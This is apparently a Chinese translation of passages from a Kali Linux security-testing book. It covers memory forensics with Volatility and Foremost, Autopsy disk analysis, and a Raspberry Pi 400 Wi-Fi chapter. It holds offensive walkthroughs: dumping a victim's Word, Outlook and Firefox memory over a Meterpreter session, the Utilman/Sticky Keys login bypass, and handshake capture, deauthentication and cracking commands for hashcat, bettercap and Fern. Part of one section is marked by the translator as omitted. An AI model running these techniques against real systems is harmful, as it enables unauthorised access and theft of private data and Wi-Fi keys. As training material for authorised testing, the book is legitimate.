YARA 扫描需要 YARA 规则，你可以从 [`github.com/Yara-Rules/rules`](https://github.com/Yara-Rules/rules) 获取。`Yarascan.yarascan` 适用于所有操作系统，`windows.vadyarascan` 仅适用于 Windows。

### 在内存中寻找恶意软件

Volatility 有一个测试镜像列表，你可以用它在内存转储中寻找恶意软件。遗憾的是，在写此时，似乎没有镜像可用。因此，我包含了一个关于使用 Volatility 2 检测 Shylock 银行木马的较旧文章仅供参考。这只是一个跟随章节。

以下链接处的 Volatility 恶意软件页面包含几个恶意软件镜像：

[`github.com/volatilityfoundation/volatility/wiki/Memory-Samples`](https://github.com/volatilityfoundation/volatility/wiki/Memory-Samples)

我通常涵盖 Stuxnet 镜像，但它在取证文章中已被分析过度了，所以让我们来看看 Shylock 银行木马。下载并解压 Shylock 镜像。我将 .vmem 镜像保存为名为 `shylock.vmem` 的文件位于 Desktop/analysis 目录下。

首先，让我们获取内存转储的 imageinfo 信息。由于是较老的 Volatility V2，你需要获取内存转储的配置（profile），这在 V3 中不再需要了。

> ➢  `volatility imageinfo -f shylock.vmem`

如下所示：


好的，这是一个 Windows XP SP3 镜像，所以我们将使用该信息进行配置切换（profile switch）。接下来，看看 Shylock 感染机器上运行了哪些进程：

```bash
volatility pslist -f shylock.vmem --profile=WinXPSP3x86
```


向下查看列表，我看到了：

```
explorer.exe           1752   1696
```

这本身看起来并不奇怪，但列表中没有列出 PID 为 `1696` 的进程，却有几个父进程 PID 为 `1752` 的进程正在运行。

让我们进行连接扫描，看看这台机器是否尝试连接到任何地方：

```bash
volatility connscan -f shylock.vmem --profile=WinXPSP3x86
```


好的，这看起来非常可疑；我们怀疑的 PID 正在连接几个远程地址。通常你会查询这些条目，看看它们的所有者是谁以及它们是否被报告过可疑行为，我们可以进一步深入分析，但让我们运行内置的 `malfind` 命令看看它能检测到什么。Malfind 会在用户态内存中搜索隐藏或注入的代码或 DLL。我们将对整个内存转储运行 malfind，看看它能否发现任何可疑代码。

让我们使用 `-D outputfolder` 选项来指定 malfind 存放发现的代码段的位置。我们将使用之前创建的 `test` 目录来存储它。

```bash
volatility malfind -f shylock.vmem --profile=WinXPSP3x86 -D test/
```

命令完成后，有很多信息被标记为可疑：


所有找到可能的恶意代码段都存储在我们指定的输出目录中。但它们中是否有真的是恶意的呢？如果你进入输出目录，你会看到所有可疑文件都以 `.dmp` 文件格式存储。


你可以获取这些文件并上传到 `VirusTotal.com` 看看它是否检测到任何可疑内容。当我们这样做时，第一个上传的文件就返回了多个恶意软件命中结果：


搞定了，这就是从内存转储中检测并移除恶意软件。在离开内存取证主题之前，我只想提另一个工具 - Foremost。

# Foremost - 图像与文档恢复

**工具作者**：美国政府，Jesse Kornblum, Kris Kendall 和 Nick Mikus
**工具网站**：[`foremost.sourceforge.net/`](http://foremost.sourceforge.net/)

Foremost 是由美国政府创建的快速文件扫描程序。它可以从内存转储中恢复文档和图片。

**可用选项**：`foremost -h`


你可以使用多种类型的图像采集扩展，如 `dd`、`raw`、`iso`、`vmem` 等。Foremost 默认创建一个名为 `output` 的输出目录，并将所有恢复的制品放在该目录下，以及 `audit.txt` 文件。要再次运行程序，输出目录必须为空，或者你必须选择不同的输出文件夹。

让我们针对之前 Volatility 章节中的 Windows 10 内存镜像采集运行 `foremost`，看看我们可以恢复哪些图片和 Office 文档文件：

```bash
# 切换目录到 "~/Desktop/analysis"
# 输入 "foremost -t jpeg,gif,png,doc -i [memorydumpfilename.raw]"
```


现在打开 `output` 目录并检查子目录中的恢复文件。在 Windows 10 内存采集上运行此命令恢复了大量来自网页浏览的图片。如果有文档文件或 PDF，它也会恢复它们！

## 结论

在本节中，我们学习了如何从系统获取内存镜像，以及使用 Volatility 对进行分析的若干种技术。我们看到了如何使用 `volatility` 从保存的内存中恢复重要数据，包括来自进程的数据和密码哈希。最后，我们简要查看了对受恶意软件感染系统的分析。

这只是对 Volatility 能力和恶意软件分析的极其基础的概述；它还能做更多。如果你想学习更多关于这个主题的内容，我强烈推荐 Michael Hale Ligh 关于该主题的详尽文章、书籍和材料。你也可以查看他关于使用 Volatility 2.0 对 Stuxnet 进行完整解析的文章：“Stuxnet’s Footprint in Memory with Volatility 2.0. ([`mnin.blogspot.com/2011/06/examining-stuxnets-footprint-in-memory.html`](http://mnin.blogspot.com/2011/06/examining-stuxnets-footprint-in-memory.html))”。

## 资源与参考文献

- `¹ “How to extract forensic artifacts from pagefile.sys?”`, Andrea Fortuna, 2019 年 4 月 17 日 - [`www.andreafortuna.org/2019/04/17/how-to-extract-forensic-artifacts-from-pagefile-sys/`](https://www.andreafortuna.org/2019/04/17/how-to-extract-forensic-artifacts-from-pagefile-sys/)
- `“Volatility 3 Cheatsheet”, Ashley Pearson, 2021 年 5 月 10 日 - [`blog.onfvp.com/post/volatility-cheatsheet/`](https://blog.onfvp.com/post/volatility-cheatsheet/)`
- `“YARA Rules Guide: Learning this Malware Research Tool”, Neil Fox, 2021 年 5 月 20 日 - [`www.varonis.com/blog/yara-rules/`](https://www.varonis.com/blog/yara-rules/)`
- `Volatility Foundation - [`www.volatilityfoundation.org/`](https://www.volatilityfoundation.org/)`
- `Volatility Wiki - [`github.com/volatilityfoundation/volatility/wiki`](https://github.com/volatilityfoundation/volatility/wiki)`
- `“Intermediate Security Testing with Kali Linux”, Forensics Intro Chapter, Daniel Dieterle

# 第 42 章：从实时内存中恢复数据

由于我们一直在研究如何从内存转储中提取信息，在回到更多传统的取证工具之前，让我们花一点时间从安全的角度更深入地探讨这一点。我最初是在几年前写这一章的。我本打算跳过这一章，但最近不久一位朋友我我，他们使用这种技术赢得了一场大型实时 CTF 挑战。因此，我针对当前的 Windows 软件对其进行了更新。

远程从实时内存中提取数据对于攻击性安全专业人员和调查人员非常有益。我非常喜欢 W00tsec¹ 一篇关于从内存转储中提取 RAW 图片的旧文章。并认为如果可以在渗透测试期间使用相同的过程从远程 Windows 系统内存中提取文本数据，那将很有趣——而你确实可以！在本章中，我们将看到如何从远程机器的内存中提取实时数据，将其解析为可读文本并在 Kali 中进行分析。我们将从 Word、Outlook 和社交媒体中恢复数据。在本章中，我使用一个运行 Office 2016 的 Windows 10 系统作为目标，欢迎随时跟随示例操作。如果不这样做，这仍然应该是一篇非常有趣的读物。

## 从 Word 中恢复数据

我们将从一个已经激活的远程 Metasploit Meterpreter 会话开始。基本上，我们欺骗了测试系统运行一个带有陷阱的文件，该文件为我们的 Kali 系统创建了一个后门。我们想要获取远程内存，但只需要 Word 进程使用的内存。按照 w00tsec 教程，我们只需要使用 SysInternals 的 `ProcDump` 命令。

`ProcDump` 可以从微软 TechNet 站点获取：

- [`docs.microsoft.com/en-us/sysinternals/downloads/procdump`](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)

它是 SysInternals 工具包的一部分。此命令允许你从特定进程提取活动内存。你还会想要 SysInternals 的 `Strings` 程序：

- [`docs.microsoft.com/en-us/sysinternals/downloads/strings`](https://docs.microsoft.com/en-us/sysinternals/downloads/strings)

`Strings` 是 Linux 命令的 Windows 版本。

**注意**：首次运行这些命令时，目标 Windows 系统上会弹出一个窗口要求你接受许可协议。为了我们的测试，只需手动点击“接受”。虽然我不会演示如何操作，但可以通过远程注册表编辑禁用 Windows 弹出窗口，以便完全远程完成。

从到运行 Microsoft Office 的 Windows 电脑的活动 Meterpreter 会话：


### 1. 将 procdump 和 strings 上传到目标系统


> 注意：Windows 路径中需要使用 `\\`。

### 2. 接下来，在 Meterpreter shell 中，输入 `ps` 并按回车键，查看远程 Windows 系统上运行的程序。


在列表下方，我们看到用户有一个打开的 MS Word 会话（`WINWORD.EXE`）：


### 3. 输入 `shell` 进入提示符。


### 4. 使用 `-ma` 参数和进程名 `WINWORD.EXE` 运行 procdump 命令。我们将使用生成的转储文件 `worddump`，如下：

```
procdump -ma WINWORD.EXE worddump
```


我们现在已经在远程系统中存储了一个名为 `worddump.dmp` 的内存转储文件。该文件很大，几乎有一个 GB。我们可以直接将该文件下载回我们的 Kali 系统——但我们可以对其进行收缩。我们实际上只需要寻找内存转储中的文本。这里有两种选择：我们可以使用 SysInternals 的 `Strings` 程序处理数据转储并删除其中的所有文本（显著减小其体积），或者将整个文件下载回 Kali 系统并使用 Linux 的 `strings` 命令对其进行解析。

选择权在你你。由于体积只有原始的一小部分，直接从远程系统拉取 `worddump.txt` 文件要快得多。另一方面，Linux 的 `strings` 命令在解析文件方面做得更好。无论哪种方式，两个版本的命令都是相同的。

```
strings worddump.dmp > worddump.txt
```


`strings` 程序将解析文件中的 ASCII 字符串并将其保存为文本文件。

注意大小的差异：


现在，让我们看看我们恢复了什么。

### Procdump & Strings - 分析结果

打开生成的文本文件，你将看到很多信息 - 系统设置、变量、文件夹列表，甚至以前运行过的命令。深入挖掘，我们发现了内存中该 Word 文档的完整副本。


如你所见，该技术成功地从内存中远程获取了这一章节的副本，并可以使用纯文本查看！

### 从 Outlook 中提取数据

将此技术应用于其他程序也得到了有趣的结果。在 Outlook（`OUTLOOK.EXE` 进程）期间打开的任何邮件都可以从 RAM 中恢复。如果你不确定进程名称，可以在 meterpreter 提示符中运行 `ps`，或者在命令提示符中运行 `tasklist`。


这是一封我在 Outlook 中打开的诈骗邮件的副本：


这只封纯文本邮件。如果它是 HTML 格式，你还会看到 HTML 格式命令。

### 恢复 Facebook 聊天记录

同样，你可以恢复在打开的会话中查看过的社交媒体帖子或私信。过程与之前相同，只需找到 Firefox 进程（会有好几个），然后运行 `procdump` 命令。它将保存所有活动会话。

通过 `strings` 命令运行每一个进程。我在第一个进程中发现了我的 Facebook 私信。

Firefox 的私信转储看起来像这样：


Firefox 显示了私信文本以及大量的 ID 信息。转储中还有用户书签的副本。恢复了大量代码，看起来很有趣。花点时间观察一下，看看你发现了什么！我上次测试这种技术时，发现对所有其他主流浏览器都可以做同样的事情。我把它留给读者去尝试。

## 结论

在本节中，我们学习了如何从远程会话的内存中提取数据并分析感兴趣的痕迹。我知道还有其他取证程序可以完成基本相同的工作，而且这并不是法律案件中保护所需数据的取证严谨性方法，但手动操作这些非常有趣，并为渗透测试开启了一些有趣的可能性。

防御此类攻击的最佳方法是遵循针对社交工程和钓鱼类攻击的良好安全规范。攻击者需要与你的系统的远程连接或本地访问权限才能从你的内存中提取项目。一如既常，不要打开邮件中未知或未请求的附件。对从同事账户发送的听起来奇怪的链接保持警惕，并在浏览时使用脚本拦截和良好的杀毒网络安全程序。企业应该始终使用存储并分析流量是否存在恶意行为的安全产品。最后，良好的良好的物理安全也很重要。保护位置、使用开机密码和使用加密卷始终是一个好主意。

## 资源与参考文献

1. “Extracting RAW pictures from memory dumps”, Copyright 2015 by Bernardo Rodrigues: [`w00tsec.blogspot.com/2015/02/extracting-raw-pictures-from-memory.html`](https://w00tsec.blogspot.com/2015/02/extracting-raw-pictures-from-memory.html)

2. Sysinternals Procdump - [`docs.microsoft.com/en-us/sysinternals/procdump`](https://docs.microsoft.com/en-us/sysinternals/procdump)

3. `Strings` - [`docs.microsoft.com/en-us/sysinternals/strings`](https://docs.microsoft.com/en-us/sysinternals/strings)

### 第 4 章：使用 Guymager & Autopsy 进行数字取证

在我之前的 Intermediate I 课程中，我涵盖了数字取证框架 (DFF)。DFF 是一个功能丰富的平台，被初学者和专业人士共同使用。在本章中，我们将查看不同的工具。

### 创建硬盘镜像

要做到这一点，我们需要一个非常大的 USB 盘或外部驱动器来存储镜像。在本教程中，我们不需要实际获取镜像，因为我们将使用测试磁盘。

1. 从 [`kali.org/downloads/`](https://kali.org/downloads/) 下载 Kali Live Boot .iso


2. 将 .iso 刻录到 DVD，你也可以直接在 VMWare player 中挂载 iso 文件：


现在，在我们尝试启动 Windows 虚拟机之前，最好修改 BIOS 启动屏幕的超时延迟，这样我们才有时间告诉虚拟机从 CD/DVD 启动。

3. 转到保存 Windows 虚拟机所在的目录。如果你不知道它保存在哪里，打开 VMware player，选中 Windows 虚拟机，点击 `Edit Virtual Machine settings`（编辑虚拟机设置），最后点击 `options`（选项）菜单。

4. 编辑 `.vmx` 文件（`虚拟机名称.vmx`）

5. 现在在文件的任何地方添加 `bios.bootdelay = 10000`，如下：

```
bios.bootdelay = 10000
```


6. 保存文件并退出。

7. 现在启动虚拟机。

8. 当你看到 Bios 启动屏幕时，按下 `esc` 进入启动菜单：

9. 确保你的 Kali 磁盘在驱动器中，然后选择 `CD-Rom Drive`：


10. 当 Kali 启动菜单出现时，选择 `Live (686-pae)`：


注意：请注意还有一个“Live（取证模式）”。根据 Kali 文档，取证模式是一种特殊的模式，它在两项主要操作上不同：

> ➢ Kali 完全不会写入硬盘。
> ➢ 禁用了所有可移动介质（包括 USB）的自动挂载。

再次强调，如果你计划在法律案件的现实取证中使用此工具，那么由你来验证它是否符合你所有的法律要求，我们仅将其作为安全测试工具。更多信息请参阅 [`www.kali.org/docs/general-use/kali-linux-forensics-mode/`](https://www.kali.org/docs/general-use/kali-linux-forensics-mode/)。

## 驱动访问与镜像

当 Kali 启动时，你将可以 Windows 硬盘：


你可以访问 Windows 系统上的任何文件夹，或复制它们，这正是我们接下来做的！

Kali 自带了多个镜像工具，其中 Kali 仓库中包含了两个流行的命令行镜像程序 `dc3dd` 和 `dcfldd`。这两者都是流行的 Linux `dd` 文件复制命令的增强取证版。Dc3dd 似乎是由空军国防网络犯罪中心（`dc3.mil`）创建的工具。这两个文件具有相似的功能但特性不同。你可以检查两者，看看哪一个最适合你。只需在终端提示符中运行命令并带有 `--help` 选项即可获取相应程序的使用说明。

如果你更偏好图形界面，`guymager` 非常易用：

1. 在终端中输入 `sudo guymager`。
2. 右键点击你想镜像的驱动器并选择“获取镜像”（acquire image）：

3. 根据你的需求选择“专家证人格式”（Expert Witness Format）或“Linux DD 原始镜像”（Linux DD Raw Image）。
4. 填写你需要的任何信息，然后选择输出目录和文件名，并点击开始：


一如既往，在处理复制和写入硬盘信息时务必非常小心，以免实际上覆盖了重要数据。使用 `fdisk -l` 命令在确定你想要复制的驱动器时会帮助——SATA 硬盘列为 sda(x)：


只需确保你有足够的空间来存储生成的文件。该工具会对整个硬盘进行镜像，因此你需要存储空间来处理。就是这样了！接下来，我们将分析一个政府提供的取证磁盘镜像，任何人都可以用于训练。该驱动器镜像文件包含几个已删除的文件和一些取证转折！

## Autopsy - The Sleuth Kit


工具网站 - [`www.sleuthkit.org/`](https://www.sleuthkit.org/) 和 [`www.autopsy.com/`](https://www.autopsy.com/)

工具 GitHub - [`github.com/sleuthkit`](https://github.com/sleuthkit)

Sleuth Kit 是 Kali Linux 中的一个基于 GUI 的数字取证工具包。该工具包是取证工具和库的集合，可以独立运行。它们也被用于许多其他开源取证工具。我们将使用 Sleuth Kit 中的 `Autopsy` 工具来分析硬盘镜像，寻找隐藏或已删除的痕迹。在本节中，我们将使用来自 NIST.gov 的特殊驱动器镜像。访问数字取证参考数据设置 (CFReDS) 网站 [`www.cfreds.nist.gov/`](http://www.cfreds.nist.gov/) 并选择“最新数据集”（Newest Data Sets）下的“DCFL”链接。

1. 下载第一个文件 `control.dd`：

此 NTFS 硬盘镜像包含了几个我们可以查看/恢复的已删除文件。
2. 创建一个 `analysis` 目录进行工作。
3. 将 `control.dd` 文件保存到我们的分析目录。我们将使用 DFF 对此镜像进行快速分析。
4. 你可以从取证（Forensics）菜单或从命令行启动 Autopsy：

5. 在浏览器中打开提供的 URL。
6. 点击“新案件”（New Case）。
7. 输入新案件名称，你可以留空其他选项。
8. 点击“添加主机”（Add Host）。
9. 输入主机名（Host Name），你可以留空其他内容。
10. 在下一个屏幕上，点击“添加镜像”（Add Image）。
11. 现在输入 `control.dd` 文件的完整路径，在类型下选择“分区”（Partition），并点击“下一步”。

12. 点击“下一步”。
13. 计算哈希值，或者为了测试留空。记住，在真实的取证案件中，哈希值对于确保证据未被更改非常重要。
14. 确保文件系统类型为 `ntfs` 并点击“添加”，然后点击“确定”。

我们现在看到了驱动器分析界面：

15. 点击“分析”然后点击“文件分析”查看驱动器文件系统。

任何红色标记的文件都是已删除但可以恢复的文件。


如果你点击一个程序文件，DFF 将以十六进制形式显示该文件。点击视频或图像，DFF 将立即显示文件（即使已删除）。

16. 点击 `MVC-577V.MPG` 文件。
17. 点击“导出”（Export），你可以在视频播放器中打开该文件。

18. 点击 `Deleted.JPG` 文件，你会看到这个：

19. 右键点击 `Scientific control.mp3` 文件。
20. 点击“导出”并尝试播放文件。它会报错，有些不对劲。
21. 再次点击“导出”，这次保存文件。

该文件将从硬盘镜像中提取并存储在下载（Downloads）目录中。如果你进入该目录并尝试播放它，什么都不会发生。有问题。问题在于这个文件实际上是一个 Word 文档，有人重命名了它试图欺骗分析人员。如果你将文件重命名为 `.doc` 并在文字处理器中打开它，你将看到这个：


这无疑是一个拙劣的隐藏数据尝试。尽管，如果没有人检查，它永远不会被发现。

## Utilman & 粘滞键攻击

快速过渡一下，Live USB/CD 启动也可用于物理渗透测试期间修改或复制文件。一种用途就是非常流行的“Utilman”或“粘滞键”（Sticky Key）攻击。虽然这是一个非常老的攻击，但它仍然适用于最新的 Windows 操作系统，包括 Windows 11。基本上，目标是 Windows 登录期间可用的辅助实用程序。攻击者需要做的只是将辅助文件 `.exe`（例如 `Utilman.exe`）移开，并用 `cmd.exe` 的副本替换它。


当按下实用程序激活键（Windows 键 + “u”）时，将打开一个系统级命令提示符。你可以使用 `net` 命令添加用户，或运行几乎任何 Windows 命令。如上面的图片所示。

## 结论

在本节中，我们涵盖了如何获取硬盘镜像。然后我们使用 Autopsy 执行了一些基本的文件恢复。安全专业人员可以使用这些技术来发现隐藏或已删除的文件，这些文件包含可能被用于获取有关目标的更多信息、公司内部信息，甚至可能是用户保存在文件中的密码（而不是把它们放在键盘下方的贴纸上）。


Pi 400 是树莓派 4 的“合位一体”键盘版本。从本质上来说，它就是一台树莓派 4，尽管它的外壳经过了扁平化，电路也为了适应这种变化进行了调整。Pi 400 非常适合作为 Kali Linux 系统，在本章中，我们将介绍如何安装 Kali 并运行一些快速的 WIFI 攻击。本章所需的硬件只需要 Pi 400（完整套件）、一台 HDMI 显示器和一个兼容 Kali 的 USB WIFI 适配器。我使用了一个 `TL-WN722N`（v1 版本！）和一个 `Alfa AWUS036NHA` 远距离扩展型，两者都能实现“开箱即用”。`TL-WN722N` `V1` 现在已经买不到新的，而且更新版本需要对驱动进行调优。尽管许多技术爱好者已经拥有了它，它是一个非常优秀的短距离适配器。

Pi 400 完整套件非常不错，价格仅约为 100 美元。它包含一个 4GB 版本的 Pi 400、电源、一张 16GB MicroSD 内存、鼠标、HDMI 线和一本《树莓派入门指南》。你只需要一台 HDMI 显示器。内存卡预装了 `RaspiOS`。你所需要的只需拆箱、连接外设、将内存卡插入树莓派并通电，几秒钟后，你就拥有了一个树莓派桌面！

**警告：通电时切不要插入或拔出内存卡！**


你现在有一个功能强大的基于 Debian Linux 的桌面系统。如果你以前从未用过树莓派，请花时间玩玩。`RaspiOS` 是一个非常好的操作系统，也是学习如何使用派 的好方法。如果你购买了完整的 Pi-400 套件，包含的入门指南将引导你使用 `RaspiOS`，以及如使用 GPIO 板和传感器等更高级的话题。

我们关注的是 Kali Linux，尽管 `RaspiOS` 也可以作为攻击系统的良好基础。许多相同的工具在 `RaspiOS` 上都能无问题运行。此外，你对 GPIO I/O 端口拥有完全编程权限，而这种支持在 Kali Linux 中似乎是缺失的。此外，这里涵盖的内容可以在普通的树莓派 4 上运行，从程序角度讲它们之间没有区别。

## 在 Pi 400 上安装 Kali Linux

在 Pi 400 上安装 Kali Linux 非常简单。如果你已经用完了 `RaspiOS`，可以覆盖 Pi 400 套件中的内存卡，或者直接使用新的或空白的内存卡。你只需要从 Offensive Security 下载官方的 Kali Linux Pi 400 64 位 ARM 镜像，使用 `BalenaEtcher` 等程序将其写入内存卡，然后将卡插入树莓派，通电并启动。

1. 在 Offensive Security 网站上，在“Raspberry Pi Foundation”下下载 Kali Linux 400 (64 bit) 镜像 - [`www.offensive-security.com/kali-linux-arm-images/`](https://www.offensive-security.com/kali-linux-arm-images/)。


2. 解压镜像。

3. 将镜像写入内存卡 – `BalenaEtcher` 效果非常好！[`www.balena.io/etcher/`](https://www.balena.io/etcher/)


4. 将内存卡插入 Pi 400，通电并启动。

你现在拥有了一个 Kali Linux 桌面系统！


这与你在桌面版安装时得到的 Kali Linux 完全相同。好吧，这里有一些细微的差异，某些工具在 ARM 平台上无法运行。但在大多数情况下，它们是完全相同的。


如果你是 Kali 的长期用户但没有注意到，或者你以前没在树莓派上用过 Kali，那么从 Kali 2000 版本开始，一些较旧或较大的工具已不再默认包含在内。你需要安装“大型 Kali 元软件包 (large Kali Metapackage)”来获取额外工具，或者选择一个较小、更集中的工具集。这个选项对于树莓派来说可能更好。此外，你可能想要使用的工具可能已经默认安装了！

欲了解更多信息，请参见“[`www.kali.org/docs/general-use/metapackages/`](https://www.kali.org/docs/general-use/metapackages/)”

## 在 Windows 中远程图形化桌面

RPi 系列非常棒，因为你可以无头模式运行它们并通过 SSH 远程控制它们。这在创建后门节点 (drop boxes) 时非常完美。虽然对于 Pi 400 来说可能不是必须，但你仍然可以设置并使用 `SSH`。如果你想在 Windows 上通过全图形化“X-Window”界面远程控制树莓派，可以使用 `Putty` 和 `Xming Server`。

> ➢ 在 Windows 上安装 Xming Server
> [`www.straightrunning.com/XmingNotes/`](http://www.straightrunning.com/XmingNotes/)

他们要求为最新版本捐赠，但也提供了旧的公开发布版本。

> ➢ 安装并运行 `Putty` ([`www.putty.org/`](https://www.putty.org/))

设置 `Putty` 连接以启用 x11 转发：

> ➢ 在“Session”下输入目标
> ➢ 安装并运行 `Xming Server`
> ➢ 安装并运行 `Putty`
（此处后续重复内容已省略且未翻译）


```bash
sudo apt install hcxtools
```

```bash
hcxpcaptool -z handshake.pmkid wpa.cap
```

然后只需使用 `hashcat` 配合希类型 `16800` (WPA-PMKID)，并使用你喜欢的任何选项。

见下示例：

```bash
hashcat -m16800 -a3 -w3 handshake.pmkid ‘[Brute_force_String]’
```

除非 WPA 文件极其简单，否则最好将文件拷贝到性能更强（带有快速 GPU）的桌面系统上进行破解。

# 在树莓派上进行 Bettercap WiFi 测试

工具网站 - [`www.bettercap.org/`](https://www.bettercap.org/)

工具用法 - [`www.bettercap.org/usage/`](https://www.bettercap.org/usage/)

Bettercap 2 是一款卓越的无线攻击工具，拥有更多的选项和功能。虽然它最初以其局域网（LAN）和中间人攻击（MITM）能力而闻名，但它已经真正成长并成为一个全功能的测试工具。它没有默认安装，但包含在 Kali 仓库中。我们将首先介绍如何使用控制界面，然后介绍 Web-UI GUI 版本。我们在书中前面提到过 Bettercap，它在树莓派上的工作原理完全一样。

```bash
sudo apt install bettercap
```

更新 Bettercap – 仅需一次，它将覆盖你的任何 Bettercap 设置。

```bash
sudo bettercap -eval "caplets.update; ui.update; q"
```

现在我们需要做的的是运行 `bettercap` 并开启 Wi-Fi 扫描

```bash
sudo bettercap -iface wlan0
```

```bash
wifi.recon on
```


看起来有点混乱，但我们可以通过 Bettercap 的“Ticker（Ticker）”显示来清理它

```bash
set wifi.show.sort clients desc
```

```bash
set ticker.commands 'clear; wifi.show'
```

```bash
ticker on
```


现在我们有了良好的彩色显示，即使通过 SSH 运行也非常出色。

现在让我们尝试从其中一个目标获取握手授权：

```bash
wifi.recon.channel X (输入通道号)
```

```bash
wifi.assoc [BSSID]
```

```bash
or wifi.assoc all（警告 – 将攻击所有检测到的 Wi-Fi 网络！）
```


成功抓取了 Death Star 握手！注意 Death Star 的加密类型现在显示为红色。完成后，输入“exit”退出 `bettercap`。捕获的握手文件和 `bettercap` 日志存储在 Kali Root 用户目录下。


随后可以使用 `Hashcat` 对 `.pcap` 文件进行处理和破解。如前所述，除非 WPA 密钥极其简单，否则你真的不想在树莓派上尝试破解它们。我强烈建议将其拷贝到桌面系统上。

# 树莓派上的 Bettercap WebUI

如果你更偏于图形用户界面，Bettercap WebUI 非常棒且功能丰富。它比我们刚刚介绍的控制界面方法简单得多。

```bash
sudo bettercap -caplet http-ui
```

```bash
打开浏览器并访问 localhost，“127.0.0.1”
```

```bash
登录 - 默认凭据为“user/ pass”
```

默认凭据可以在 `/usr/share/bettercap/caplets/http-ui.cap` 中更改。如果你想从另一台计算机通过 HTTPS 远程访问页面，可以使用 `sudo bettercap -caplet https-ui`。

```bash
点击“WiFi”菜单按钮
```

```bash
选择你的无线适配器并点击“播放”图标
```


```bash
你可以点击通道数字锁定特定通道
```

```bash
点击你想攻击的目标接入点旁边的箭头
```

```bash
点击“Associate（关联）”
```

如果可以，它将取消客户端的认证（deauth）并抓取且保存握手文件：


将出现一个红色钥匙，显示确实能够保存握手文件。就是这样，非常简单！这只是对使用 Bettercap 进行基础 Wi-Fi 密钥获取攻击的快速概述。该工具还有许多其他功能。如果你购买了额外的硬件，还可以扫描 HID 设备（无线键盘和鼠标）、目标蓝牙和 BLE 设备，并通过 GPS 位置跟踪目标。硬件驱动和设置可能有点复杂，且仅支持特定设备。查看工具网站以获取更多信息。花些时间查看 caplets 和功能，它真的是一个非常棒的工具。

# 树莓派 - Fern WiFi Cracker

工具网站 - [`github.com/savio-code/fern-wifi-cracker`](https://github.com/savio-code/fern-wifi-cracker)

另一个带有图形用户界面的良好 Wi-Fi 测试工具是 Fern WiFi Cracker。Fern 的一个优点是它让你能够在不离开程序的情况下尝试破解握手文件。这是通过字典攻击实现的。Fern 还有一个专业版本，请查看工具网站获取更多信息。

```bash
在 Kali 菜单中，选择“06 – Wireless Attacks/ Fern WiFi Cracker”
```

```bash
选择你的无线卡，然后点击“scan for access points”
```


点击 WiFi WPA 按钮将列出所有检测到的接入。


```bash
在顶部的 Attack（攻击）面板窗口点击你的目标
```

```bash
选择一个字典 (/usr/share/wordlists)
```

```bash
然后点击“Regular Attack（常规攻击）”
```

```bash
最后，点击“WiFi Attack（WiFi 攻击）”
```

Fern 将自动攻击接入点、取消客户端认证并捕获握手密钥。如果目标接入点具有安全的 WPA 密钥，且 WPA 密钥不在字典中，则攻击将失败。


如果密码在字典中，它将破解并显示出来。


一旦安全测试人员获得了 WPA 密钥，他们就可以关联目标网络，并使用 Kali Linux 中的其他工具开始规划范围并开始测试内部网络安全。

# 树莓派 - 使用 Kismet 进行无线漫游


工具网站 - [`www.kismetwireless.net/`](https://www.kismetwireless.net/)

工具文档 - [`www.kismetwireless.net/docs/`](https://www.kismetwireless.net/docs/)

如果你曾经进行过 Wi-Fi 漫游（Wardriving），那么你已经熟悉 Kismet 了——所以我不会在这个工具上花费太多时间。它已经升级到新的图形界面，并拥有许多新功能。让我们来看其中几个。

```bash
打开终端并运行，“sudo kismet”
```

```bash
在浏览器中，访问“http://localhost:2501”
```

```bash
创建用户名和密码并登录
```

```bash
点击左角的的三线菜单按钮
```


```bash
点击“Data Sources（数据源）”
```

```bash
Kismet 将显示可用接口，点击你想使用的接口 (wlan1) 并点击“Enable Source（启用源）”
```

从设备中捕获的信息将显示在主屏幕上。


你可以选择任何设备进行检查。从单个设备菜单中可以获得大量数据。如下：


Kismet 的妙之处在于，如果你有所需的硬件，就可以扫描大量设备。这包括无线 HID 设备、仪表、蓝牙和 Z-Wave。你甚至可以跟踪飞机并在 Google Earth 类型的地图上查看它们——我们将在下一章介绍。

# Pi 400 和 WIO Terminal

我们到为止涵盖的所有内容都非常基础。让我们快速看一眼一些高级的可能性。由于涉及一些设置以及使用 Arduino 平台的所需的知识，而这超出了本书的范围，因此这部分将更像是一个阅读性的概述章节，而不是技术性的逐步教程。

Pi 400 基本上是一个 Pi 4，因此我们可以完全访问并使用 40 引 GPIO 连接器。通过它，我们可以将可选的传感器和设备连接到树莓派。一个选项是 Seeedstudio 的 WIO Terminal - [`www.seeedstudio.com/Wio-Terminal-p-4509.html`](https://www.seeedstudio.com/Wio-Terminal-p-4509.html)


WIO Terminal 是一款精巧的一合式 ATSAMD51 设备，兼容 Arduino 和 MicroPython。WIO 拥有一个 2.4 英的 LCD 屏，并内置了许多传感器。WIO 的另一个很棒的特性是它可以连接并与 Raspberry Pi 4/400 接口！WIO Terminal 可以轻松连接到各种 Grove 传感器，其中许多传感器可以通过 Python 编码通过 RPi 进行寻址。请参阅“WIO Terminal Wiki”获取分步实施的项目教程指南。

其中一种方案是将 WIO 变成一个 Wi-Fi 分析仪。你可以直接将 WIO 插入 Pi 400 的 GPIO 插槽以给其供电（不包含 40 针扩展板，需要单独购买）。这样，WIO 就可以扫描并显示 Wi-Fi 网络，而你可以在 Kali Linux 中执行其他安全任务。


虽然我承认在 Pi 4 上使用 WIO 会实用得多，尤其是当你正在构建一个渗透测试或红队“投放盒”（Drop Box）时，但随身携带一个带有（可以说是“额外”）功能的小型紧凑键盘仍然很不错。

## 智能渗透测试投放盒 (Smart Pentest Drop Boxes)

关于投放盒的话，我最近在 12 月的 CIA 会议上发表了名为《使用树莓派进行安全测试》的演讲。这基于我的同名书籍，但也提到了我关于智能渗透测试投放盒的研究工作。我已经在 RPi 上使用 Grove 传感器进行了一些开发工作。例如，通过少量的自定义 Python 编程，你可以设置一个树莓派，仅在有人进入房间时才进行“攻击”。


下方的概念图显示了一个运行在 RPi 上的自定义 python 脚本，当有人靠近设备时它会启动 `nmap` 扫描。


我使用的触发范围是 9 cm，但它可以是任何范围，远可达 350cm（11.5 英尺）。你同样可以使用光光传感器来判断有人进入带有自动光的房间，或者使用人体存在检测器，这些都是可行方案。此外，任何测试工具都可以用来代替 `nmap` 扫描。

或者，你也可以编写程序，在利用 Pi Camera 和面部识别软件识别特定个人时执行特定的测试。


一旦检测到正确的人，就可以启动某种攻击脚本，在这个概念性攻击中，仅是一次 Wi-Fi 扫描：


尽管它也可以是一个自定义编写的漏洞程序，专门针对摄像头检测到的个人。这确实为这些设备增添了许多智能性。“智能投放盒”的可能性真的仅限于设计者的想象力。

## 结论

